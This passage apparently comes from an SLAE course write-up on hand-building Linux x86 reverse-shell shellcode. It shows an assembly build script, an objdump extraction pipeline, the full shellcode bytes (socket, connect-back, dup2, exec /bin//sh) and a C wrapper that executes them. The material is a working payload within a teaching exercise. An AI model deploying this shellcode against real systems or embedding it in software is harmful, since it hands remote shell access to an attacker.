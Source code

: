 ```nasm

	int 128			; syscall execution
```

### Assemble and linking ###

Let's use scripts provided by Vivec in SLAE course materials.
```sh
$ cat ./compile.sh 

#!/bin/bash
echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm
echo '[+] Linking ...'
ld -o $1 $1.o
echo '[+] Done!'

$ ./compile.sh reverse_shell
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

### Preparing C Wrapper ###

<p style="text-align: justify;">Now we extract the shellcode from our NASM and put it in the C language wrapper. It's also worth checking to see if any null-byte has crept in.</p>

```sh
$ objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x0d\x05\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```
Then we have to copy it inside shellcode.c wrapper file:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x0d\x05\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
